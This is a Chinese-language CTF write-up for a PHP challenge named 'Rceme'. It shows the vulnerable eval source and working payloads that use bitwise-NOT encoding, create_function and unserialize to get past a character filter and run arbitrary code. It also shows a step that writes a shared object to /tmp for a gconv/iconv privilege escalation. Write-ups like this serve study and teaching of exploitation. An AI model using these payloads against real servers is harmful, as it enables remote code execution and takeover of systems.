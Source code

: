 

还是`sleep`。。。这三题属于被我全歪打正着了属于是。。。

## Rceme

```php
<?php
if(isset($_POST['cmd'])){
    $code = $_POST['cmd'];
    if(preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
        die('<script>alert(\'Try harder!\');history.back()</script>');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);
        die();
    }
} else {
    highlight_file(__FILE__);
    var_dump(ini_get("disable_functions"));
}
?>
    
    
```

正则都是去年极客大挑战的原题，拿取反绕一下就行了。

无参数rce是难点。

这里我用的是：

```php
create_function(...unserialize());
```

字符串的话，比如字符串x取反是y，那么可以这样得到：

```php
[~y][~%CF].unserialize();
```

这样也满足了那个正则，`unserialize`也拿取反弄一下就行了。

数组的话也拿反序列化得到，因为ban了逗号，然后拿`create_function`代码注入就行了。

POC：

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=phpinfo();
```

然后就是提权，是iconv提权但是我比赛的时候没打通，赛后Jiang提示下才发现原来是`gconv-modules`写的不对

说一下思路吧，首先就是写文件：

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=
$file = new SplFileObject("/tmp/feng.so", 'w');
$file->fwrite($_POST['file']);

&file=xxx
```
